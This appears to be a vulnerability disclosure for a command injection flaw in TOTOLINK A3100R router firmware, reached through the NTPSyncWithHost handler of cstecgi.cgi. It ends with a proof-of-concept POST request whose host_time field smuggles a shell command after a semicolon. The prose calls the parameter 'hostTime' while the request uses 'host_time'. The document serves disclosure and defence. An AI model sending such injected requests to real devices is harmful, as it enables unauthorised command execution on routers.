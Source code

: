 ## Totolink A3100R command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink A3100R
* Version: V5.9c.4577_B20191021

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20191119/d55579f988e05db5e32f2b458dd7ef17.zip

### Vulnerability details

Totolink A3100R V5.9c.4577_B20191021 was found to contain a command injection vulnerability in the `NTPSyncWithHost` function via the `hostTime` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 138
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "NTPSyncWithHost",
    "host_time": "'1;pwd'"
}
```

